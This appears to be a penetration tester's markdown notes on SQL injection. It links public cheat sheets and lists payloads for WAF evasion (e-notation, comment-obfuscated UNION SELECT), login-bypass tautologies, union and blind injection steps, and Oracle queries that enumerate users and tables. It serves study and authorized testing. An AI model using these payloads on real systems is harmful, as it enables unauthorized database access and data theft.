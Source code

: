 # SQL Injection 


cheat sheets : 
- [PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [invicti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [owasp](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [pentest-monkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)


###### notes:
- e notation can be used to confuse WAF and it will be removed from the playload and construct valid query 
```sql
SELECT table_name FROM information_schema 1.e.tables

select id 1.1e, char 10.2e(id 2.e), concat 3.e('a'12356.e,'b'1.e,'c'1.1234e)1.e, 12 1.e*2 1.e, 12 1.e/2 1.e, 12 1.e|2 1.e, 12 1.e^2 1.e, 12 1.e%2 1.e, 12 1.e&2 from test 1.e.test;

x=1' or 1.e(1) or '1'='1"                      "--not part of the payload
-- MSSQL function 
SELECT IIF(1>2,"YES","NO") 
```
- MSSQL has IIF function to turn blind error-based injection into boolean 


###### *** sqli example *** : 
- bypass login
- union attacks:
	- detrmine columns [ORDER BY 1] - [UNION SELECT NULL]
	- find column with useful datatype [UNION SELECT NULL,'A']
- **Blind Sqli**
	- conditional error LIKE : [IF 1=2] - [IF 1=1] 
	- conditional response LIKE : Divade on **Zero**
	- time delay ``
	- OAST Techniques 
	- 

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = ('bluecheese')
```

#### Note:
+ Can't bypass prepare statement
+ don't use sqlmap as much as possible
+ make sure if the query is one of the following:
	+ UPDATE
	+ INSERT
	+ SELECT 
	+ SELECT  within ORDER BY  

- select first two columns in oracle sql, and more
```sql
(SELECT username FROM all_users where rownum=1)

(SELECT username FROM (SELECT username, rownum as rn FROM all_users order by username
asc) where rn=2)
-- list databases
(select owner from (select owner, rownum as rn from (select DISTINCT owner from all_tables
order by owner asc)) where rn=1)(select owner from (select owner, rownum as rn from (select
DISTINCT owner from all_tables order by owner asc)) where rn=2)
-- replace invalid chars in FQDN
(select replace(replace((table_name),' ','-'),'$','-') from (select table_name,rownum as rn from
all_tables order by table_name asc)rn where rn=1)
```



An SQL Injection attack can successfully bypass the WAF , and be conducted in all following
cases: • Vulnerabilities in the functions of WAF request normalization. • Application of HPP
and HPF techniques. • Bypassing filter rules (signatures). • Vulnerability exploitation by the
method of blind SQL Injection. • Attacking the application operating logics (and/or)

- WAF bypass using bufferover Flow
```
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,
2,3,4....
```